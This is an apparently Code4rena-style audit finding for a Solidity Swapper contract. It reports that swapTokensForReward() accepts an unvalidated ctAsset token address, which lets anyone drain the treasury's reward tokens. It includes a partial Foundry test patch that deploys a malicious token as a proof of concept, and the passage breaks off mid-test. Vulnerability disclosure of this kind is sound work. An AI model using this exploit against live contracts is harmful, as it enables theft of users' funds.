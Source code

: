 ## Description
Any external user can call `swapTokensForReward()` with a [malicious ctAssetToken_ address](https://code4rena.com/evaluate/2024-11-concrete/submissions/S-2024-11-concrete/blob/main/src/swapper/Swapper.sol#L79) and steal all the reward tokens. This is possible because `ctAssetToken_` address is never validated by the protocol. 
```js
  File: src/swapper/Swapper.sol

    73:              /// @notice Swaps ctAsset tokens for reward tokens
    74:              /// @param ctAssetToken_ The address of the ctAsset token
    75:              /// @param rewardToken_ The address of the reward token
    76:              /// @param ctAssetAmount_ The amount of ctAsset tokens to swap
    77:              /// @dev The function checks if the reward token is a valid reward token
    78:              function swapTokensForReward(
    79:@--->             address ctAssetToken_,
    80:                  address rewardToken_,
    81:                  uint256 ctAssetAmount_
    82:              ) external nonReentrant {
```

## Impact
All available reward tokens in the treasury can be stolen.

## Proof of Concept
Use the following patch to update `test/Swapper.t.sol` and run the test with `forge test --mt test_t0x1c_swapTokensForReward -vv` to see it pass:

```diff
diff --git a/Swapper.t.sol b/Swapper.t.sol
index 18268f5..f611cd0 100644
--- a/Swapper.t.sol
+++ b/Swapper.t.sol
@@ -349,8 +349,83 @@ contract StrategyBaseTest is Test, SwapperEvents {
             ORACLE_QUOTE_DECIMALS, // oracleDecimals_,
             rewardUSDPair
         ); // oraclePair_
+    } 
+    
+    function test_t0x1c_swapTokensForReward() public {
+        uint256 rewardAmountInTreasury = 100_000_000 * 10 ** ASSET_DECIMALS;
+        int256 rewardPrice = int256(500 * 10 ** ORACLE_QUOTE_DECIMALS);
+        int256 assetPrice = int256(22 * 10 ** ORACLE_QUOTE_DECIMALS);
+        // mint some reward tokens to the treasury
+        rewardToken.mint(treasury, rewardAmountInTreasury);
+
+        // Malicious ctAsset token
+        MaliciousCTtoken maliciousctToken = new MaliciousCTtoken(address(asset));
+
+        // set prices for the oracle
+        _setOraclePrices(assetPrice, rewardPrice);
+
+        // Hazel wants to swap half of his ctAsset belongings
+        uint256 hazelCtAssetAmount = maliciousctToken.balanceOf(hazel);
+        uint256 ctAssetAmountToBeSwapped = hazelCtAssetAmount;
+        // treasury to approve the spending of reward tokens
+        vm.prank(treasury);
+        rewardToken.approve(address(swapper), rewardAmountInTreasury);
+        vm.prank(hazel);
+        maliciousctToken.approve(address(swapper), ctAssetAmountToBeSwapped);
+
+        // calculate the expected answer
```